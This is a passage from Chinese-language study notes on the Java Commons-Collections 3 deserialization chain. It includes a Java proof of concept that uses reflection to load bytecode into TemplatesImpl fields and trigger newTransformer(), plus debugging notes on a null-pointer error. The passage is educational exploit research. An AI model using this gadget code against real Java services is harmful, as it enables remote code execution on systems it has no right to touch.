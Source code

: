 ![img](http://de34dnotespics.oss-cn-beijing.aliyuncs.com/img/1640076050015-de1514ac-f159-4b64-9d93-42ce738608b9.png)

一般这种变量，由于不能序列化，在反序列化时都会进行相应的赋值。可以查看 readObject 函数，赋值一个 TransformerFactoryImpl 实例。

![img](http://de34dnotespics.oss-cn-beijing.aliyuncs.com/img/1640076140120-1b353afc-1d6d-4c17-9edd-c5fa565defdf.png)

所以，在实际反序列化 payload 构造时，不对这个 _tfactory 赋值都是可以的，但是为了本地调试时不会报错，也需要赋值。综上可以写出如下的 exp。

```java
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Path;
import java.nio.file.Paths;

public class CC3 {
    public static void main(String[] args) throws Exception {
        TestCC3();
    }

    public static void TestCC3() throws Exception {
        Path path = Paths.get("C:\\tmp\\Calc.class");
        byte[] bytes = Files.readAllBytes(path);
        byte[][] bytes1 = {bytes};
        TemplatesImpl templates = new TemplatesImpl();
        Field bytecodesField = TemplatesImpl.class.getDeclaredField("_bytecodes");
        bytecodesField.setAccessible(true);
        bytecodesField.set(templates,bytes1);

        Field nameField = TemplatesImpl.class.getDeclaredField("_name");
        nameField.setAccessible(true);
        nameField.set(templates,"aaa");

        Field classField = TemplatesImpl.class.getDeclaredField("_class");
        classField.setAccessible(true);
        classField.set(templates,null);

        Field tfactoryField = TemplatesImpl.class.getDeclaredField("_tfactory");
        tfactoryField.setAccessible(true);
        tfactoryField.set(templates,new TransformerFactoryImpl());

        templates.newTransformer();

    }
}
```

我们可以尝试运行一下，但是发现并不能执行且出现空指针异常，动态调试跟进去。发现在 defineTransletClasses 中的 _auxClasses 因为没有赋值而出现空指针异常。

![img](http://de34dnotespics.oss-cn-beijing.aliyuncs.com/img/1640076406058-e3258d0e-3228-4d39-b337-bda0ac2ad569.png)

此时 i = 0，_transletIndex = -1。
